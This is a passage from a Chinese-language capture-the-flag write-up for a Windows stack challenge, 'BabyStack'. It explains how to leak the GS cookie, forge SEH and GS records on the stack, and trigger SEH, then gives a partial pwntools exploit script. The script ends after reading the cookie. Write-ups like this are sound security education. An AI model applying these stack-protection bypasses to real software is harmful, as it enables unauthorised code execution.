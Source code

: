 ![](./index_files/1571937941989.png)

由此可知，
$$
cookie = *MAINaddress - 03963 + 7c004 = *MAINaddress + 786a1
$$
因此，我们可以通过这个值伪造GS，从而绕过GS。

而栈上值的地址可以通过栈基址加偏移获取。

在栈上伪造SEH、GS之后，就可以通过栈溢出或者读非法地址来触发SEH了。因为再次构造栈溢出怕会覆盖之前构造的SEH，因此直接触发任意地址读写，然后输入任一字符就可以了。



## EXP

由于比赛服务器关闭，因此通过windows配置开放SSH给ubuntu，进行测试。

```python
from pwn import *
context.log_level="debug"
p=remote("192.168.43.254",22)
p.sendline("BabyStack.exe")
p.recvuntil("stack address = ")
stack_addr=int(p.recvuntil("\n").strip(),16)
p.recvuntil("main address = ")
main_addr=int(p.recvuntil("\n").strip(),16)
I_know = hex(main_addr+0x4BF3)[2:].upper().rjust(8,"0")
#print hex(stack_addr),hex(main_addr)

stack1 = stack_addr - 0x3C
stack2 = stack_addr - 0x38
stack3 = stack_addr - 0x34
stack4 = stack_addr - 0x30
shell = main_addr + 0x4903
SEH_scope_table = p32(0xFFFFFFE4)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFC0)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFFE)
SEH_scope_table += p32(shell)
SEH_scope_table += p32(shell)
cookie_addr = main_addr + 0x786A1
GS_addr=stack_addr - 0x18

#pause()

p.recvuntil("So,Can You Tell me what did you know?\n")
p.sendline(I_know)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(cookie_addr))
p.recvuntil("is ")
cookie=int(p.recvuntil("\n"),16)
```